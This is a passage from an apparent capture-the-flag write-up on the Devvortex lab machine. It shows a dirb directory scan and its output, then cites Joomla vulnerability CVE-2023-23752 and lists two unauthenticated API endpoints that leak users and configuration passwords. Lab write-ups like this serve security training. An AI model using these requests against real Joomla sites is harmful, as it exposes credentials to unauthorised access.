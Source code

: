 I then tried fuzzing for directories here:

```bash
dirb http://dev.devvortex.htb/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Nov 29 10:21:08 2023
URL_BASE: http://dev.devvortex.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://dev.devvortex.htb/ ----
==> DIRECTORY: http://dev.devvortex.htb/administrator/                                                               
==> DIRECTORY: http://dev.devvortex.htb/api/                                                                         
==> DIRECTORY: http://dev.devvortex.htb/cache/                                                                       
==> DIRECTORY: http://dev.devvortex.htb/components/ 

```

We finally have something a potential  attack surface. The administrator page shows us a login page of the Joomla Software:

>Joomla is a free and open-source content management system for publishing web content on websites. Web content applications include discussion forums, photo galleries, e-Commerce and user communities and numerous other web-based applications.

This can potentially host some sensitive information about the server.

Searching on google for any reported vulnerabilities on Joomla tells us that [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) allows unauthenticated users to access website endpoints that may lead to information leakage including passwords.

### Exploit
Exploit of the above vulnerability 
>https://github.com/Acceis/exploit-CVE-2023-23752/blob/master/exploit.rb

Checking this POC tells us that the endpoints =>


    1.http://devvortex.htb/api/index.php/v1/users?public=true

    2. http://devvortex.htb/api/index.php/v1/config/application?public=true

Reveals information about users and passwords of the system.
